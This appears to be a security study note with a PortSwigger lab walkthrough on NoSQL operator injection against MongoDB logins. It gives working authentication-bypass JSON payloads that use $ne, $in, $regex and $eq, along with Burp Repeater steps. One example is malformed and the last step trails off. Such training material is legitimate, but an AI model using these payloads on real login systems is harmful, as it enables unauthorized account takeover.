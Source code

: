 # NoSQL operator injection

## NoSQL Operator Injection

NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result. Examples of MongoDB query operators include:

* `$where` - Matches documents that satisfy a JavaScript expression.
* `$ne` - Matches all values that are not equal to a specified value.
* `$in` - Matches all of the values specified in an array.
* `$regex` - Selects documents where values match a specified regular expression.

You may be able to inject query operators to manipulate NoSQL queries. To do this, systematically submit different operators into a range of user inputs, then review the responses for error messages or other changes.

### Submitting query operators

In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

{% hint style="info" %}
**Note**

You can use the [Content Type Converter](https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278) extension to automatically convert the request method and change a URL-encoded `POST` request to JSON.
{% endhint %}

### Detecting operator injection in MongoDB

Consider a vulnerable application that accepts a username and password in the body of a `POST` request:

```
{"username":"wiener","password":"peter"}
```

Test each input with a range of operators. For example, to test whether the username input processes the query operator, you could try the following injection:

```
{"username":{"$ne":"invalid"},"password":{"peter"}}
```

If the `$ne` operator is applied, this queries all users where the username is not equal to `invalid`.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload:

```
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example:

```
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```



## Lab

{% embed url="https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication" %}

The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to [NoSQL injection](https://portswigger.net/web-security/nosql-injection) using MongoDB operators.

To solve the lab, log into the application as the `administrator` user.

You can log in to your own account using the following credentials: `wiener:peter`.



### Steps

* Open Burp suite
* Visit the target website and click on Login&#x20;
* Send the Post login request to repeater
* Change the Json as

```
{"username":{
"$regex": "admin"
},"password":{"$ne":""
}}
```

* This will give us the admin username as `admini94tuz8d`
* Now again click on login and in the proxy tab change the json as

```
{"username":{
"$eq": "admini94tuz8d"
},"password":{"$ne":""
}}
```

* \$$$
